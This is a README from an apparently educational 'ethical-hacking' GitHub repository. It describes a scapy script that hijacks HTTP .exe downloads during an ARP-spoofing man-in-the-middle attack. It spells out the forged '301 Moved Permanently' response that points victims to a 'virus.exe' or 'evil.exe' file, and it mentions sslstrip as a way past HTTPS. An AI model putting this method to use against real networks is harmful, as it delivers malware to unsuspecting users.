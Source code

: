 # replace-downloads
Built similar to dns-spoofer (https://github.com/maurya-bitlegacy/ethical-hacking/tree/main/dns-spoofer). For downloading files, the request and response pass through the http layer, not the dns layer. The http layer check of scapy is convenient enough for printing and analyzing, but inconvenient for modifications (makes code very complex). Utilizing the fact that useful http data is contained in the RAW layer, we can categorize http requests and responses. http requests have http in dport field in the TCP layer and http responses have http in sport field in the TCP layer.

Once we see that the request has some .exe download request, we can modify the response to serve the target computer a file of our taste. We use sequence numbers and ack numbers in the TCP layer to find the response which corresponds to a download request.

For the response of the http request identified through seq and ack, we use the HTTP response code 301: Moved Permanently in the load field (RAW layer) of the response packet which originally would've had HTTP 200: OK, and give the link to our malicious file in the format: "HTTP/1.1 301 Moved Permanently\nLocation: https://www.example.com/virus.exe\n\n". Again, we need to remove the len, checksum field in IP and checksum field in TCP layer, which will be calculated and filled again by scapy appropriately. To use a file present in web root (/var/www/html), use ip/dir/filename.exe, eg: 192.168.18.38/evil-files/evil.exe

Run arp-spoof.py (More details: https://github.com/maurya-bitlegacy/ethical-hacking/tree/main/arp-spoofer) in parallel, and use FORWARD in NFQUEUE to do this for a target computer.

Sometimes, the error IndexError: Layer [TCP] not found might be thrown by replace-downloads.py because some packets don't have a TCP layer. This can be ignored.

A note on https: To bypass https, sslstrip needs to be set up which runs only on python2. Also, most websites use HSTS harcoding these days, so sslstrip is not likely to capture traffic on those websites. 
